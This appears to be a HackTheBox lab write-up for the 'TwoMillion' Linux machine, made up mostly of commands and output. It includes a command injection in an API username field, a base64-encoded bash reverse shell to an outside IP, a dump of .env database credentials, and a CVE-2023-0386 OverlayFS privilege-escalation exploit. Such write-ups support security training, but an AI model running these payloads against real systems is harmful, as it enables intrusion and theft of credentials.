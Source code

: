 #HackTheBox #linux #easy 
# enum
## nmap


## _find_
### in view-source:http://2million.htb/invite
/api/v1/invite/verify
/register

### in http://2million.htb/js/inviteapi.min.js
```
function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

##
└─# curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249    0   249    0     0    213      0 --:--:--  0:00:01 --:--:--   214
```
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

└─# curl -X POST http://2million.htb/api/v1/invite/generate | jq
```
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "VjE3SVAtNDVBRkItUUM0RkQtVUdPSkI=",
    "format": "encoded"
  }
}
 
```

└─# echo "VjE3SVAtNDVBRkItUUM0RkQtVUdPSkI=" | base64 -d
[V17IP-45AFB-QC4FD-UGOJB ]
## inviteCode = 
```
V17IP-45AFB-QC4FD-UGOJB
```


# foothold
└─# 
```
curl -H "Content-type: application/json" --Cookie "PHPSESSID=0us9hq4e1up7ii0f7mjtfhdcf4" -d '{"username":"zelo;id;"}' -X POST http://2million.htb/api/v1/admin/vpn/generate

```
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─# 
```
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'" | base64
```
	YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNC8xMjM0IDA+JjEnCg==

## _reverse_
└─# 
```
curl -H "Content-type: application/json" --Cookie "PHPSESSID=0us9hq4e1up7ii0f7mjtfhdcf4" -d '{"username":"zelo;echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNC8xMjM0IDA+JjEnCg== | base64 -d | bash;"}' -X POST http://2million.htb/api/v1/admin/vpn/generate

```

-rw-r--r-- 1 root root 87 Jun  2 18:56 /var/www/html/.env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

## _ssh_
/var/mail/admin                                                                                                                       
/var/spool/mail/admin
drwx------ 3 admin admin 4096 Jul 17 11:09 /home/admin/snap
AdminIdentities=unix-group:sudo;unix-group:admin

admin@2million:/tmp$ 
```
cat /var/spool/mail/admin

```
	Hey admin,
	I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

# privesc (exploit overlayfs flaw)
└─#
```
git clone https://github.com/xkaneiki/CVE-2023-0386.git

```
└─#
```
tar -czvf exp_overlayfs.tar.gz CVE-2023-0386

```
└─# 
```
nc 10.129.186.126 1234 < exp_overlayfs.tar.gz

```
_admin@2million:/tmp$_
```
nc -lvp 1234 > exp

```
_admin@2million:/tmp$_
```
tar -xzvf exp
cd CVE-2023-0386/
make all
./fuse ./ovlcap/lower ./gc

```

## _in another terminal_
_admin@2million:/tmp$_
```
cd /tmp/CVE-2023-0386/
./exp

```